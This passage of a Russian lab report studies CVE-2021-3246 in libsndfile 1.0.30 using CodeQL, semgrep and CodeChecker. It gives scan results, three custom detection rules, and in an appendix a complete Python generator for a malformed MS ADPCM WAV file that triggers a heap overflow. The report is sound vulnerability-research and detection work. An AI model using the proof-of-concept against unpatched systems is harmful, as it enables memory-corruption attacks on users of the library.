| `core.BitwiseShift` | HIGH | 4 |
| `bugprone-signed-char-misuse` | MEDIUM | 3 |
| `unix.Malloc` | MEDIUM | 2 |
| `core.uninitialized.ArraySubscript` | HIGH | 1 |
| `core.uninitialized.UndefReturn` | HIGH | 1 |
| `core.DivideZero` | HIGH | 1 |
| `clang-diagnostic-conditional-uninitialized` | HIGH | 1 |
| `bugprone-incorrect-roundings` | HIGH | 2 |

Большая часть отчётов — стилевые замечания и предупреждения компилятора (`double-promotion`, `float-conversion`, `cert-err33-c`, `deadcode`). Для безопасности наиболее интересны группы `security.ArrayBound`, `core.DivideZero`, `core.uninitialized.*`, `core.BitwiseShift` и `unix.Malloc`.

Примеры:

```text
[HIGH] src/gsm610.c:483: Out of bound access to memory preceding 'ubuf.sbuf'
       [security.ArrayBound]
[HIGH] src/ms_adpcm.c:651: Out of bound access to memory preceding 'ubuf.sbuf'
       [security.ArrayBound]
[HIGH] src/ms_adpcm.c:599: Division by zero [core.DivideZero]
[HIGH] src/ALAC/ag_dec.c:248: Right shift by '32' overflows the capacity
       of 'uint32_t' [core.BitwiseShift]
[MEDIUM] src/alac.c:871: Potential leak of memory pointed to by 'info'
       [unix.Malloc]
```

Комментарии:

- Восемь `security.ArrayBound` относятся к одному шаблону `memcpy` из union-буфера `ubuf.sbuf`/`ubuf.ibuf` в разных кодеках. Анализатор не отслеживает, что `ptr` уже указывает внутрь `ubuf`, и сообщает о доступе «перед буфером». Для `gsm610.c`, `vox_adpcm.c`, `paf.c`, `sds.c`, `xi.c` это, скорее всего, ложные срабатывания; `ms_adpcm.c:651` и `ima_adpcm.c:878` требуют отдельной проверки.
- `core.DivideZero` в `ms_adpcm.c:599` — деление на `idelta[chan]`, которое может оказаться нулевым после распаковки блока. Это истинное неопределённое поведение, хотя и не исследуемая CVE.
- `core.BitwiseShift` и `core.UndefinedBinaryOperatorResult` в `sfendian.h`, `common.c`, `dwvw.c` — сдвиги и битовые операции старого кода; часть срабатываний указывает на реальное UB, часть является следствием неполного анализа.
- `unix.Malloc` в `alac.c:871` — потенциальная утечка `info`; на success-пути `info` возвращается, на error-пути освобождается, поэтому срабатывание требует ручной проверки и, вероятно, является ложным.

Штатный набор CodeChecker даёт полезную картину, но требует фильтрации: из 329 отчётов непосредственно к безопасности относятся около 20, остальное — стиль, переносимость и предупреждения компилятора. Для отчёта это нормально: задание требует описать результаты и выделить значимые.



## 10. Результаты анализа средством CodeQL

Для анализа создана база CodeQL по сборке 1.0.30:

```sh
codeql database create work/db-1.0.30 --language=cpp \
  --source-root=work/src/libsndfile-1.0.30 \
  --command="$PWD/scripts/codeql-build.sh 1.0.30"
```

Основная часть базы (`db-cpp`) занимает около 80 МБ, не считая журналов экстракции; создаётся она за несколько секунд после сборки. Пять штатных запросов запускались одной командой:

```sh
Q=work/tools/codeql/qlpacks/codeql/cpp-queries/1.9.2/Security/CWE
codeql database analyze work/db-1.0.30 \
  "$Q/CWE-120/UnboundedWrite.ql" \
  "$Q/CWE-190/IntegerOverflowTainted.ql" \
  "$Q/CWE-129/ImproperArrayIndexValidation.ql" \
  "$Q/CWE-457/ConditionallyUninitializedVariable.ql" \
  "$Q/CWE-468/SuspiciousAddWithSizeof.ql" \
  --format=sarif-latest --output=results/codeql-cwe-1.0.30.sarif
```

Сводка:

| Запрос | Находок |
|---|---|
| `cpp/integer-overflow-tainted` | 290 |
| `cpp/unclear-array-index-validation` | 8 |
| `cpp/conditionally-uninitialized-variable` | 2 |
| `cpp/suspicious-add-sizeof` | 1 |
| `cpp/unbounded-write` | 0 |
| **Итого** | **301** |

Подробный разбор каждого запроса и примеры приведены в разделе 3. Главный вывод: штатные запросы CodeQL хорошо находят общие классы дефектов, но 290 срабатываний CWE-190 — это в основном шум низкой точности, а CWE-120 не видит исследуемую CVE, потому что она является ошибкой согласования размеров, а не неограниченным копированием.

Собственное правило `cpp/lab4-msadpcm-block-size` (текст в разделе 13.1) запускалось на базах 1.0.30 и 1.1.0:

```sh
codeql database analyze work/db-1.0.30 rules/codeql/msadpcm-block-size.ql \
  --format=sarif-latest --output=results/codeql-custom-1.0.30.sarif
codeql database analyze work/db-1.1.0 rules/codeql/msadpcm-block-size.ql \
  --format=sarif-latest --output=results/codeql-custom-1.1.0.sarif
```

Результат:

| Версия | Находок | Место |
|---|---|---|
| libsndfile 1.0.30 | 1 | `src/ms_adpcm.c:131` |
| libsndfile 1.1.0 | 0 | — |



## 11. Результаты анализа средством semgrep

Команды:

```sh
semgrep --config=p/c --metrics=off src/
semgrep --config=p/default --metrics=off src/
semgrep --config=p/security-audit --metrics=off src/
semgrep --config=rules/semgrep/msadpcm-block-size.yaml --metrics=off src/
```

Результаты:

| Прогон | Находок | Комментарий |
|---|---|---|
| `p/c` | 0 | штатный C-набор, 2 правила; для C он слишком мал |
| `p/default` | 0 | 336 правил, но ни одно не сработало |
| `p/security-audit` | 7 | двойное освобождение, use-after-free, небезопасные строковые функции |
| своё правило, 1.0.30 | 1 | `src/ms_adpcm.c:131` |
| своё правило, 1.1.0 | 0 | условие исправлено, правило молчит |

Семь срабатываний `p/security-audit` перечислены в разделе 8.1; после ручного разбора два `use-after-free` в `wavlike.c` и `double-free` в `alac.c` оказались ложными, а предупреждения о `strcpy`/`strcat` в `common.h` — общими. Это показывает, что шаблонные правила semgrep без анализа потока управления дают заметную долю ложных срабатываний на старом C-коде.

Собственное правило точно находит старую проверку и не срабатывает на 1.1.0:

```text
work/src/libsndfile-1.0.30/src/ms_adpcm.c
  131┆ if (blockalign < 7 * psf->sf.channels)
```

## 12. Результаты анализа средством CodeChecker

Штатный прогон описан в разделе 9: 329 отчётов, из них 8 `security.ArrayBound`, 1 `core.DivideZero`, 2 `unix.Malloc`, 2 `core.uninitialized.*`, 4 `core.BitwiseShift`, 7 `core.UndefinedBinaryOperatorResult`.

Собственное правило реализовано как checker clang-tidy `lab4-msadpcm-block-size` и загружается в CodeChecker:

```sh
clang++ -shared -fPIC -std=c++17 -O2 \
  rules/clang-tidy/MsadpcmBlockCheck.cpp \
  -o work/plugins/lab4-msadpcm-tidy.so \
  -lclang-cpp -lLLVM -Wl,--unresolved-symbols=ignore-all

echo "--load=$PWD/work/plugins/lab4-msadpcm-tidy.so" > work/tidy-args.txt

cd work/build/normal-1.0.30
CC=../../venvs/codechecker/bin/CodeChecker
$CC analyze ../../compile_commands-1.0.30.json \
  -o ../../../results/codechecker-custom-1.0.30 \
  --analyzers clang-tidy \
  --analyzer-config clang-tidy:take-config-from-directory=true \
  --analyzer-config clang-tidy:cc-verbatim-args-file=$PWD/../../tidy-args.txt
```

В каталоге исходников создаётся `.clang-tidy`:

```yaml
Checks: '-*,lab4-msadpcm-block-size'
```

CodeChecker при `take-config-from-directory=true` не передаёт свой `--checks`, поэтому clang-tidy читает `.clang-tidy`, а `--load` подхватывает плагин. Результат:

| Версия | Отчётов | Checker |
|---|---|---|
| libsndfile 1.0.30 | 1 | `lab4-msadpcm-block-size` |
| libsndfile 1.1.0 | 0 | — |

В выводе `CodeChecker parse`:

```text
Checker name            | Severity    | Number of reports
lab4-msadpcm-block-size | UNSPECIFIED |                 1
```

Важность `UNSPECIFIED` — потому что CodeChecker не знает checker из плагина и не имеет для него метки severity. Это ограничение интеграции: сообщение диагностики является предупреждением, но в статистике CodeChecker оно не попадает в HIGH/MEDIUM/LOW. При необходимости severity можно задать через конфигурацию CodeChecker или через аннотацию в исходнике, но для демонстрации правила это не требуется.



## 13. Разработанные правила обнаружения уязвимости

Все три правила нацелены на одну и ту же сигнатуру: слабую проверку в `wavlike_msadpcm_init`, из-за которой `samplesperblock` не ограничивается. На исправленной версии 1.1.0 этой проверки нет, поэтому все три правила должны молчать.

### 13.1. Правило CodeQL

Файл `rules/codeql/msadpcm-block-size.ql`:

```ql
/**
 * @name CVE-2021-3246: недостаточная проверка размера блока MS ADPCM
 * @description В wavlike_msadpcm_init проверяется только blockalign,
 *              но не samplesperblock. Из-за этого msadpcm_decode_block
 *              может записать больше сэмплов, чем выделено в calloc.
 * @kind problem
 * @problem.severity error
 * @security-severity 8.8
 * @id cpp/lab4-msadpcm-block-size
 * @tags security
 *       external/cwe/cwe-787
 *       external/cwe/cwe-122
 */

import cpp

from IfStmt check, BinaryOperation lt
where
  check.getEnclosingFunction().hasName("wavlike_msadpcm_init") and
  lt = check.getCondition() and
  lt.getOperator() = "<" and
  lt.getLeftOperand().toString() = "blockalign"
select check,
  "Проверка размера блока MS ADPCM использует blockalign и не ограничивает samplesperblock (CVE-2021-3246)"
```

Принцип работы:

- запрос ограничен функцией `wavlike_msadpcm_init`;
- ищется `if`-условие с оператором `<`, у которого левый операнд — именно `blockalign`;
- проверка `getLeftOperand().toString() = "blockalign"` отсекает исправленную проверку `2 * blockalign < ...` из 1.1.0: там левый операнд — умножение, а не сам `blockalign`;
- запрос не привязан к номеру строки и находит функцию по имени и структуре AST.

Результат: 1 срабатывание в 1.0.30 (`src/ms_adpcm.c:131`), 0 в 1.1.0.

Ограничение: правило узкое и ищет конкретную сигнатуру CVE, а не любой дефект согласования размеров. Это сознательный выбор: штатный запрос CWE-120 такие логические ошибки не находит, а широкое правило давало бы много ложных срабатываний. В отчёте это сформулировано как компромисс между точностью и полнотой.

### 13.2. Правило semgrep

Файл `rules/semgrep/msadpcm-block-size.yaml`:

```yaml
rules:
  - id: lab4-msadpcm-block-size
    languages: [c]
    severity: ERROR
    message: >
      MS ADPCM: проверяется только blockalign, а samplesperblock не ограничен.
      Это позволяет выйти за границы буфера в msadpcm_decode_block
      (CVE-2021-3246 в libsndfile 1.0.30).
    metadata:
      cwe:
        - "CWE-787: Out-of-bounds Write"
      references:
        - https://nvd.nist.gov/vuln/detail/CVE-2021-3246
        - https://github.com/libsndfile/libsndfile/issues/687
    patterns:
      - pattern-inside: |
          int wavlike_msadpcm_init(...)
          {
            ...
          }
      - pattern: |
          if (blockalign < 7 * $CHANNELS)
          {
            ...
          }
```

Принцип работы:

- `pattern-inside` ограничивает поиск телом функции `wavlike_msadpcm_init`;
- `pattern` ищет условие `blockalign < 7 * $CHANNELS` и тело `if`;
- `$CHANNELS` — метапеременная, поэтому правило не зависит от конкретного имени поля (`psf->sf.channels`);
- на 1.1.0 условие заменено, правило не срабатывает.

Результат: 1 находка в 1.0.30, 0 в 1.1.0.

Ограничение: semgrep не анализирует поток управления и не проверяет, что найденное условие действительно является единственной проверкой; правило намеренно синтаксическое. Это типично для semgrep: он быстро и точно находит шаблон, но не доказывает уязвимость.

### 13.3. Правило CodeChecker

CodeChecker не имеет собственного DSL, поэтому правило реализовано как checker clang-tidy `lab4-msadpcm-block-size` (полный текст — в Приложении В). Ключевой matcher:

```cpp
Finder->addMatcher(
    ifStmt(
        hasAncestor(functionDecl(hasName("wavlike_msadpcm_init"))),
        hasCondition(binaryOperator(
            hasOperatorName("<"),
            hasLHS(ignoringImplicit(
                declRefExpr(to(varDecl(hasName("blockalign")))))),
            hasRHS(ignoringImplicit(binaryOperator(
                hasOperatorName("*"),
                hasLHS(integerLiteral(equals(7)))))))))
        .bind("weak-check"),
    this);
```

Принцип работы:

- matcher ищет `if` внутри функции `wavlike_msadpcm_init`;
- условие должно быть `<`, слева — `blockalign`, справа — умножение на 7;
- checker регистрируется в `ClangTidyModule` под именем `lab4-msadpcm-block-size`;
- плагин загружается в clang-tidy через `--load`, а CodeChecker передаёт этот аргумент через `cc-verbatim-args-file`;
- `.clang-tidy` с `Checks: '-*,lab4-msadpcm-block-size'` включает только наше правило, а `take-config-from-directory=true` не даёт CodeChecker перезаписать список checker'ов.

Сборка:

```sh
clang++ -shared -fPIC -std=c++17 -O2 \
  rules/clang-tidy/MsadpcmBlockCheck.cpp \
  -o work/plugins/lab4-msadpcm-tidy.so \
  -lclang-cpp -lLLVM -Wl,--unresolved-symbols=ignore-all
```

Символы clang-tidy (`ClangTidyCheck`, реестр модулей) не входят в `libclang-cpp`, поэтому при линковке используется `--unresolved-symbols=ignore-all`: они разрешаются при загрузке плагина из бинарника `clang-tidy`. Это стандартный приём для out-of-tree clang-tidy плагинов.

Результат: 1 отчёт в 1.0.30, 0 в 1.1.0. Ограничение — CodeChecker не знает checker из плагина, поэтому в его статистике важность `UNSPECIFIED`; сообщение диагностики всё равно выводится и сохраняется в plist.

### 13.4. Сравнение правил

| Средство | Движок | Что ищет | 1.0.30 | 1.1.0 | Ложные срабатывания |
|---|---|---|---|---|---|
| CodeQL | AST + CFG, QL | `if` с `blockalign` в `wavlike_msadpcm_init` | 1 | 0 | нет |
| semgrep | AST-шаблоны | тот же `if` по текстовому шаблону | 1 | 0 | нет |
| CodeChecker + clang-tidy | AST matcher | тот же `if` по matcher'у | 1 | 0 | нет |

Все три правила дают одинаковый результат на двух версиях, что подтверждает правильность выбранной сигнатуры.

## 14. Выводы

В работе исследована библиотека libsndfile 1.0.30 и уязвимость CVE-2021-3246 (CWE-787, CVSS 8.8). Уязвимость воспроизведена на чистом WAV-файле размером 2660 байт, собрана ASan-версия, получен отчёт `heap-buffer-overflow` в `msadpcm_decode_block`, а на версии 1.1.0 тот же файл отклоняется с сообщением `samplesperblock (10) should be >= 1582`.

Основные результаты:

1. **CodeQL.** Пять штатных запросов дали 301 срабатывание: 290 — CWE-190, 8 — CWE-129, 2 — CWE-457, 1 — CWE-468, 0 — CWE-120. Штатные запросы хорошо показывают общие классы дефектов, но CWE-190 оказался очень шумным, а CWE-120 не увидел исследуемую CVE, потому что она является ошибкой согласования размеров. Собственное правило точно нашло уязвимую проверку в 1.0.30 и не сработало в 1.1.0.
2. **semgrep.** Штатный C-набор `p/c` содержит всего два правила и не дал находок; `p/default` (336 правил) — тоже 0; `p/security-audit` дал 7 находок, из которых после ручного разбора два `use-after-free` в `wavlike.c` оказались ложными, `double-free` в `alac.c` требует проверки, а предупреждения о `strcpy`/`strcat` — общими. Собственное правило дало 1 находку в 1.0.30 и 0 в 1.1.0.
3. **CodeChecker.** Штатный набор (clangsa + clang-tidy) дал 329 отчётов, из которых к безопасности непосредственно относятся `security.ArrayBound` (8), `core.DivideZero` (1), `core.uninitialized.*` (2), `core.BitwiseShift` (4), `unix.Malloc` (2). Часть `ArrayBound` — ложные срабатывания из-за union-буфера. Собственное правило реализовано как clang-tidy checker, загружено в CodeChecker и дало 1 отчёт в 1.0.30 и 0 в 1.1.0.
4. **Сравнение средств.** CodeQL даёт самый богатый анализ и позволяет писать компактные AST/CFG-запросы; semgrep быстрее и проще, но без анализа потока управления даёт много ложных срабатываний; CodeChecker удобен как инфраструктура для clangsa/clang-tidy, но не имеет собственного DSL, поэтому «своё правило» — это checker clang-tidy или clangsa.
5. **Практический вывод.** Для поиска конкретной CVE эффективнее узкое правило по сигнатуре уязвимого кода, чем штатные универсальные запросы. Универсальные правила полезны для первичного аудита, но требуют ручной триаги; в отчёте это показано на примерах CWE-190 и `security.ArrayBound`.

## 15. Список источников

1. Методические указания: «Лабораторная работа № 4 — Использование средств статического анализа кода для оценки безопасности приложений».
2. libsndfile — официальный репозиторий: <https://github.com/libsndfile/libsndfile>
3. CVE-2021-3246, NVD: <https://nvd.nist.gov/vuln/detail/CVE-2021-3246>
4. CVE-2021-3246, MITRE CVE Services: <https://cveawg.mitre.org/api/cve/CVE-2021-3246>
5. Issue libsndfile #687: <https://github.com/libsndfile/libsndfile/issues/687>
6. Коммит исправления: <https://github.com/libsndfile/libsndfile/commit/deb669ee8be55a94565f6f8a6b60890c2e7c6f32>
7. OSS-Fuzz testcase 5696502087024640: <https://oss-fuzz.com/testcase-detail/5696502087024640>
8. Debian DSA-4947: <https://www.debian.org/security/2021/dsa-4947>
9. Gentoo GLSA 202309-11: <https://security.gentoo.org/glsa/202309-11>
10. CodeQL documentation: <https://codeql.github.com/docs/>
11. CodeQL query packs: <https://github.com/github/codeql>
12. semgrep documentation: <https://semgrep.dev/docs/>
13. semgrep registry: <https://semgrep.dev/explore>
14. CodeChecker documentation: <https://codechecker.readthedocs.io/>
15. Clang-Tidy documentation: <https://clang.llvm.org/extra/clang-tidy/>
16. Clang Static Analyzer documentation: <https://clang-analyzer.llvm.org/>

---

## Приложение А. Структура работы и команды воспроизведения

Структура каталога `lab4`:

```text
lab4/
├── report.md                  этот отчёт
├── README.md                  краткое описание и команды
├── scripts/
│   ├── 01-fetch.sh            клонирование libsndfile 1.0.30 и 1.1.0
│   ├── 02-build.sh            обычная и ASan-сборка
│   ├── 03-poc.sh              генерация PoC и прогон
│   ├── 04-codeql.sh           база CodeQL, пять CWE, своё правило
│   ├── 05-semgrep.sh          штатные наборы и своё правило
│   ├── 06-codechecker.sh      log/analyze, сборка плагина
│   ├── codeql-build.sh        обёртка сборки для CodeQL
│   ├── make-shot.sh           рендер вывода в PNG
│   └── summarize.py           сводки по результатам
├── rules/
│   ├── codeql/
│   │   ├── msadpcm-block-size.ql
│   │   └── qlpack.yml
│   ├── semgrep/
│   │   └── msadpcm-block-size.yaml
│   └── clang-tidy/
│       ├── MsadpcmBlockCheck.cpp
│       └── Makefile
├── poc/
│   ├── gen_msadpcm_poc.py
│   └── msadpcm_poc.wav        генерируется скриптом
├── results/                   SARIF, текстовые отчёты, сводки
├── screenshots/               PNG для отчёта
└── work/                      исходники, сборки, базы, venv (в git не входит)
```

Окружение: Omarchy/Arch Linux, clang 23.1.3, CodeQL 2.27.3 (bundle), semgrep 1.182.1, CodeChecker 6.26.2. WSL и Docker не использовались: все инструменты работают нативно на Linux.

Основные команды (все шаги автоматизированы в `scripts/`, ниже — минимум для проверки вручную):

```sh
# 1. Исходники и сборка
./scripts/01-fetch.sh
./scripts/02-build.sh

# 2. PoC (из каталога lab4)
python3 poc/gen_msadpcm_poc.py
ASAN_OPTIONS=detect_leaks=0 \
  work/build/asan-1.0.30/programs/sndfile-info poc/msadpcm_poc.wav

# 3. CodeQL
CODEQL=work/tools/codeql/codeql
$CODEQL database create work/db-1.0.30 --language=cpp \
  --source-root="$PWD/work/src/libsndfile-1.0.30" \
  --command="$PWD/scripts/codeql-build.sh 1.0.30"
$CODEQL database analyze work/db-1.0.30 \
  "$PWD/work/tools/codeql/qlpacks/codeql/cpp-queries/1.9.2/Security/CWE/CWE-190/IntegerOverflowTainted.ql" \
  --format=sarif-latest --output=results/codeql-cwe-1.0.30.sarif

# 4. semgrep
SEMGREP=work/venvs/semgrep/bin/semgrep
$SEMGREP --config=p/security-audit --metrics=off work/src/libsndfile-1.0.30/src
$SEMGREP --config=rules/semgrep/msadpcm-block-size.yaml --metrics=off \
  work/src/libsndfile-1.0.30/src

# 5. CodeChecker (из каталога сборки)
cd work/build/normal-1.0.30
CC=../../venvs/codechecker/bin/CodeChecker
$CC log -o ../../compile_commands-1.0.30.json \
  -b "make -j8 programs/sndfile-info"
$CC analyze ../../compile_commands-1.0.30.json \
  -o ../../../results/codechecker-builtin-1.0.30 \
  --analyzers clangsa clang-tidy
```

Полные команды с абсолютными путями и параметрами — в скриптах `scripts/` и `README.md`.

## Приложение Б. Полный текст генератора PoC

```python
#!/usr/bin/env python3
"""Генератор PoC для CVE-2021-3246 в libsndfile 1.0.30."""

import argparse
import struct
from pathlib import Path

MS_ADPCM_GUID = bytes.fromhex("0200000000001000800000aa00389b71")

CHANNELS = 226
BLOCK_ALIGN = 2592
SAMPLES_PER_BLOCK = 10
SAMPLE_RATE = 8000
BITS_PER_SAMPLE = 4


def build_wav() -> bytes:
    fmt = struct.pack(
        "<HHIIHH",
        0xFFFE,
        CHANNELS,
        SAMPLE_RATE,
        SAMPLE_RATE * BLOCK_ALIGN,
        BLOCK_ALIGN,
        BITS_PER_SAMPLE,
    )
    extension = (
        struct.pack("<HI", SAMPLES_PER_BLOCK, 0)
        + MS_ADPCM_GUID
    )
    fmt += struct.pack("<H", len(extension)) + extension
    data = bytes(BLOCK_ALIGN)
    body = (
        b"WAVE"
        + b"fmt "
        + struct.pack("<I", len(fmt))
        + fmt
        + b"data"
        + struct.pack("<I", len(data))
        + data
    )
    return b"RIFF" + struct.pack("<I", len(body)) + body


def main() -> None:
    parser = argparse.ArgumentParser()
    parser.add_argument("-o", "--output", type=Path,
                        default=Path(__file__).with_name("msadpcm_poc.wav"))
    args = parser.parse_args()
    blob = build_wav()
    args.output.write_bytes(blob)
    print(f"записан {args.output} ({len(blob)} байт)")


if __name__ == "__main__":
    main()
```

## Приложение В. Полный текст checker'а для CodeChecker

```cpp
// Правило CodeChecker: checker для clang-tidy, который ищет слабую проверку
// размера блока MS ADPCM в libsndfile 1.0.30 (CVE-2021-3246).

#include "clang/ASTMatchers/ASTMatchFinder.h"
#include "clang/ASTMatchers/ASTMatchers.h"
#include "clang-tidy/ClangTidy.h"
#include "clang-tidy/ClangTidyCheck.h"
#include "clang-tidy/ClangTidyModule.h"

using namespace clang;
using namespace clang::tidy;
using namespace clang::ast_matchers;

namespace {

class MsadpcmBlockCheck : public ClangTidyCheck {
public:
  MsadpcmBlockCheck(StringRef Name, ClangTidyContext *Context)
      : ClangTidyCheck(Name, Context) {}

  void registerMatchers(MatchFinder *Finder) override {
    Finder->addMatcher(
        ifStmt(
            hasAncestor(functionDecl(hasName("wavlike_msadpcm_init"))),
            hasCondition(binaryOperator(
                hasOperatorName("<"),
                hasLHS(ignoringImplicit(
                    declRefExpr(to(varDecl(hasName("blockalign")))))),
                hasRHS(ignoringImplicit(binaryOperator(
                    hasOperatorName("*"),
                    hasLHS(integerLiteral(equals(7)))))))))
            .bind("weak-check"),
        this);
  }

  void check(const MatchFinder::MatchResult &Result) override {
    const auto *Check = Result.Nodes.getNodeAs<IfStmt>("weak-check");
    if (Check == nullptr)
      return;

    diag(Check->getIfLoc(),
         "MS ADPCM: blockalign проверяется вместо samplesperblock; "
         "возможен выход за границу буфера (CVE-2021-3246)");
  }
};

class Lab4Module : public ClangTidyModule {
public:
  void addCheckFactories(ClangTidyCheckFactories &CheckFactories) override {
    CheckFactories.registerCheck<MsadpcmBlockCheck>(
        "lab4-msadpcm-block-size");
  }
};

} // namespace

static ClangTidyModuleRegistry::Add<Lab4Module> Lab4ModuleRegistration(
    "lab4-module", "Правила лабораторной работы № 4");
```
